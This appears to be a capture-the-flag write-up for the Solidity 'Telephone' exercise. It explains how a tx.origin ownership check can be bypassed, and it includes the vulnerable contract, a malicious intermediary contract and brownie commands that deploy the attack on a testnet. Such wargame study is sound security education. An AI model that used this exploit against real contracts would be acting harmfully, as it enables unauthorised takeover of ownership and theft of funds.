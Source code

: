 ## Exercise 4: Telephone

This contract is volnerable because the ownership depends on tx.origin. tx.origin refers to the original address that initiated a chain of transactions. For example, if `A calls B then B calls C` then tx.origin in C is A. Notice that msg.sender in C is not A, but B.
The Telephone.sol contract sets `owner = msg.sender` in its constructor, so the initial owner is the address from which the cotnract was deployed. However, it also contains a `changeOwner()` function that takes an addres as an argument. There is a conditional statement inside the function that requires the new owner address to be different to the address sending the request. If this condition is satisfied, the address associated with tx.origin takes ownership of the contract. Therefore, if we create a malicious contract as an intermediary, we can take ownership of the vulnerable contract, i.e. our address is A, our malicious contract is B and the vulnerable contract is C. A calls to B which calls to C, so from C's perspective B is msg.sender() and A is `tx.origin`. Since A!=B, the condition in `changeOwner()` is satisfied and our address (A) becomes the contract owner.

### vulnerable contract
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### malicious contract
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneHack {

  address public owner;
  Telephone originalContract;

  constructor() public {
    owner = msg.sender;
  }

  function hack() public{

    // pass deployed address for Telephone contract
    originalContract = Telephone(0x88781FAEb7Ec480D7d9e841B3c75d777BcEf78b1);
    originalContract.changeOwner(owner);
  }
}
```

## Execution

```bash
>>> brownie console --network rinkeby 
>>> owner = accounts.load('main')
>>> hack = TelephoneHack.deploy({'from':owner})
>>> hack.hack()
```